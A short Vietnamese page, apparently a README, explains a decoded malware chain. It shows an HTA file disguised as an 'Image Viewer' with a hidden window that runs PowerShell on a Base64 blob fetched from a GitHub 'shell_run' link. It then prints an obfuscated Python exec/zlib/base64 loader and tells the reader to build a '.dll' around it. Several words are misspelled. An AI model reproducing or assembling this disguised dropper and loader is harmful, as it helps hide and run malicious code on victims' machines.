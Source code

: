 Code được giải mã bởi HKO247

Cách thức hoạt động:

1. Chương trình .hta mở Prossecess bằng Powsershell run đoạn Base64

<Dữ liệu trong *.hta>
""
<!DOCTYPE html>
<html>
<head>
    <title>Image Viewer</title>
     <hta:application
      border="none"
      maximizeButton="no"
      minimizeButton="no"
      scroll="no"
      showInTaskbar="no"
      windowState="normal">
    </hta:application>
    <body>
<!--Convert Base64 tạo bacth với endpoint https://github.com/hkoblack/Vietnamese-Buffalo/blob/concudaden/shell_run -->      
</body>
</head>
</html> ""


  2. Navite .dll từ code 
    https://github.com/hkoblack/Vietnamese-Buffalo/blob/concudaden/decode_concudaden.py
    Hoặc tạo *.dll  có dữ liệu 
    _ = lambda __ : __import__('zlib').decompress(__import__('base64').b64decode(__[::-1]))
exec((_)(b'"Đoạn base64 convert từ python mình gửi ở trên"'))
